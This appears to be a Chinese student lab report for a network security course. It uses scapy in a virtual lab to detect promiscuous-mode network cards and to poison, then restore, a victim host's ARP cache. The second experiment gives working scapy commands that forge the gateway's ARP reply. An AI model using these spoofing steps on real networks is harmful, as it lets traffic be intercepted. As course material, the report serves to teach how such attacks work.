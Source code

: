 #   第四章 网络监听实验

## 实验环境

**网络拓扑**

![network](img/%E7%BD%91%E7%BB%9C%E6%8B%93%E6%89%91.png)

**如图所示网络中的节点基本信息如下：**


|        角色         | **Ip地址**       | **网卡/物理地址**            |
| :---------------------: | ---------------- | ---------------------------- |
|     **网关Debain**      | `172.16.111.1`   | `08:00:27:4e:a1:a2`/`enp0s9` |
| **攻击者Attacker-Kali** | `172.16.111.111`      | `08:00:27:0e:34:8d`/`eth0`   |
|  **受害者Victim-Kali**  | `172.16.111.123` | `08:00:27:17:0b:c2`/`eth0`   |


## 实验准备

提前在攻击者主机Kali上安装好 `scapy`
```c
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![scapy](img/scapy.png)


## 实验详情
### 实验一：检测局域网中的异常终端

**1. 实验拓扑：**

本次实验只涉及到攻击者和网关

**2. 实验目的：**

通过 `scapy` 构造数据包，用来达到探测局域网中是否存在开放混杂模式的网卡的目的

**3. 知识点：**

1. 混杂模式

- 摘自课件：

  > 以太网卡的工作模式有两种：正常模式和混杂模式。在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。

2. `scapy` 的 promiscping 函数: 

- **为查看混杂模式主机而发送ARP请求**

  > Send ARP who-has requests to determine which hosts are in promiscuous mode

**4. 实验步骤：**

```c
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```
如图
![ip_link](img/ip_link.png)


```c
# 在攻击者主机上开启 scapy ,需要sudo 
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.123")
```

![sendpromisc1](img/sendpromisc1.png)


```c
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
 
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![promisc-on](img/promisc-on.png)



```c
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.123")
```

![promiscping2](img/promiscping2.png)



```c
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

**5. 实验总结：**
通过实验并结合知识点我们可以知道在混杂模式下，受害者主机接收所有经过网卡(eth0)的数据包，包括不是发给它本机的包。

### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成

```c
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![ARPbroadcast](img/ARPbroadcast.png)



```c
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![gateway_mac](img/gateway_mac.png)



```c
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.123
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.123", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![arpspoofed](img/arpspoofed.png)



此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```c
ip neigh
```

![ip_neigh](img/ip_neigh.png)



回到攻击者主机上的 scapy 交互式终端继续执行命令。

```c
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:4e:a1:a2", pdst="172.16.111.123", hwdst="08:00:27:17:0b:c2")
sendp(restorepkt1, count=100, inter=0.2)
```

![restorepkt1](img/restorepkt1.png)



此时在受害者主机上准备“刷新”网关 ARP 记录。

```c
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![ip_neigh2](img/ip_neigh2.png)


## 遇到的问题与解决办法

 1.  
- 问题：`scapy` 执行 `pkt = promiscping("172.16.111.123")` 时被禁止
- 解决办法：**使用root权限**执行 `scpay`
2. 
- 问题：arpspoof: libnet_open_link(): UID/EUID 0 or cap

- 解决方法： 在命令前面加上sudo即可

## 参考资料

- [仓库课件](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)
- [kali-linux configures nat mode to connect to the network](https://blog.csdn.net/Ahuuua/article/details/108575907)